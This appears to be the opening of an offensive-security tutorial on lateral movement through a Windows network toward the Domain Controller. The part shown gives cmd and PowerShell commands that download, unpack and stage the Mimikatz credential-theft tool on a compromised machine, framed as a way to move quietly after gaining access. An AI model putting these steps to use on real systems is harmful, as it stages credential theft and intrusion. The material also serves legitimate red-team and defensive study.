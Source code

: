 Lateral movement is an important step in an attack, where the attacker moves from one system to another in the network. This usually happens after they get initial access and increase their privileges on a hacked machine. Here, we'll look at ways to move through the network quietly to reach key targets, like the Domain Controller (DC) or admin computers.

### Get Mimikatz

download, extract, and prepare **mimikatz**

1. **Download Mimikatz ZIP File**

   In **cmd**, use the `curl` command to download the file:

   ```bash
   curl -L -o "%USERPROFILE%\mimikatz.zip" "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip"
   ```

   In **PowerShell**, use `Invoke-WebRequest`:

   ```powershell
   Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip" -OutFile "$HOME\mimikatz.zip"
   ```

   Both commands will download the file from the specified URL and save it as `mimikatz.zip` in the current directory.

2. **Create Destination Folder**

   If the destination folder does not exist, you can create it before extracting the archive.

   In **cmd**, use `mkdir`:

   ```bash
   mkdir %USERPROFILE%\mimikatz
   ```

   In **PowerShell**, use `New-Item`:

   ```powershell
   New-Item -Path "$HOME\mimikatz" -ItemType Directory
   ```

   After creating the folder, you can proceed to extract the archive into it.

3. **Extract ZIP File**

   In **cmd**, use `tar` to extract the ZIP file (this works on Windows 10 and later):

   ```bash
   tar -xf %USERPROFILE%\mimikatz.zip -C %USERPROFILE%\mimikatz
   ```

   In **PowerShell**, use `Expand-Archive` to extract the ZIP file:

   ```powershell
   Expand-Archive -Path "$HOME\mimikatz.zip" -DestinationPath "$HOME\mimikatz"
   ```

   This command extracts the contents of `mimikatz.zip` into the specified folder. Make sure to replace the path with your desired location.

---